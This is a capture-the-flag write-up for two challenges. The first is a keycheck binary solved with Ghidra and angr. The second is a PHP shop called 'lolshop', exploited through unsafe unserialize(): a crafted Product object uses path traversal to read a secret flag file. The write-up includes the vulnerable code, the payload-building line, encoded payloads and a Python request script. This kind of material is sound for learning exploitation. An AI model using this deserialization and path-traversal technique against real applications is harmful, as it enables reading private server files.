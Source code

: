 ## keycheck_baby
After a rapid analysis we can see that it's a classic input guessing challenge. We can open it with Ghidra, and with a simple Python script we easily get the first part of the flag: flag{y0u_d4_qu33n_

Here it comes the first problem: even with Ghidra, the second input check seems unsolvable. 

For this reason I dropped the idea of understanding the code, and moved on angr to solve the challenge with symbolic execution.

With a basic script we can retrieve the flag, that is: **flag{y0u_d4_qu33n_0f_cr4ck1ngz}**

## lolshop
This is a serialization challenge, and we are given the link of the website and also the source, and the hint that the flag is in /secret/flag.txt file path. 

First of all, let's explore the code and make a plan: we can see that there is only one method that unserializes an object, located in State.php called restore($token).

```php
    static function restore($token) {
        return unserialize(gzuncompress(base64_decode($token)));
    }
```

After that, we can notice that the only path we can see in all these files is the one representing the products' image: if we are able to modify this, we may obtain the flag as the image of one of the products. This is located in Products.php.

```php
    function getPicture() {
        $path = '/var/www/assets/' . $this->picture;
        $data = base64_encode(file_get_contents($path));
        return $data;
    }

    function getPrice() {
        return $this->price;
    }

    function toDict() {
        return array(
            "id" => $this->id,
            "name" => $this->name,
            "description" => $this->description,
            "picture" => $this->getPicture(),
            "price" => $this->price
        );
    }
```

The idea is:
1. we want to trigger the toDict() function of a product
2. we search for every call the restore() method in the source code
3. after finding the right restore() call, we try to craft a malicius payload

We can notice that in the cart.php page we have:
```php
...
} else if(isset($_REQUEST['state'])) {

    $state = State::restore($_REQUEST['state']);

    $enc = json_encode($state->toDict(), JSON_PRETTY_PRINT | JSON_NUMERIC_CHECK);

    if(isset($_REQUEST['save'])) {
        $tok = $db->saveState($enc);
        if(!$tok) {
            http_response_code(400);
        } else {
            echo json_encode(array("token" => $tok));
        }
    } else {
        echo $enc;
    }

} else {
    http_response_code(400);
}
```
so we can see that we call the restore(), then we call the toDict() on the unserialized state: COOL

What if we try to unserialize a Product object, instead of a State object?

We will have this situation: our object will be unserialized without errors, because it's a valid one; then the $state->toDict() instruction will be executed, but now the method refers to Product.toDict(), so the getPicture() will be executed with a payload that WE control.

The final script is:
```python
import requests
import json

url = 'http://jinblack.it:3006/api/cart.php'

#myobj = {'state': 'eJxNkE1rxCAQhvNTxNMu5JDRfOqphz0slA00217LRA0I+xHUPYQl/72atrAHX/SZd16c6UUl6BAwGCqYeHoBpaDZBjJvvLf3G5W9aKLp7yX4ZoNk+0WZ1VR6UcdObeoCedexqhwB2gJh7BreFTCBwrZRNWOT4qCha0dWaSzNWJsGYZqAa5wg5QB/ib7h1SQY2bIs6cbYS9lc0V6+UWsXQap28RPH03D4OJPj6dyT2d31QwVPdlbnJKXlRBuvnJ1DDMjJbFV4uEhnZ5XZk6+398/DQHZQ5IQi0qjjmFSpqMVeUrn+j79tSaELVKIA8bQCZDrr+gPGZmUA'}
myobj = {'state': 'eJxNjl0KwjAQhHuWPUCa1KqwOYS9QthEXdCkJFsQxLub/jwE5mH4dmbYG14Rppz8QgJ4xm9BYxC6A3XswTIabSs/NTy6d4AKK/OcVjfo5uxDocyzcIpHKrrn6sylSc1MsuRtZxgRlOp3lUA5SH9/uYeSj2y9se1lprD/pbX9/QGaazsG'}
'''
$xxx = new Product(10,'dio','nah', '../../../secret/flag.txt', 1000);
echo base64_encode(gzcompress(serialize($xxx)));
'''
x = requests.post(url, data = myobj)

print(x.text)
```

After sending the request we get this output:

We know that the flag is encoded in base64, so with a simple conversion we obtain: **actf{welcome_to_the_new_web_0836eef79166b5dc8b}**
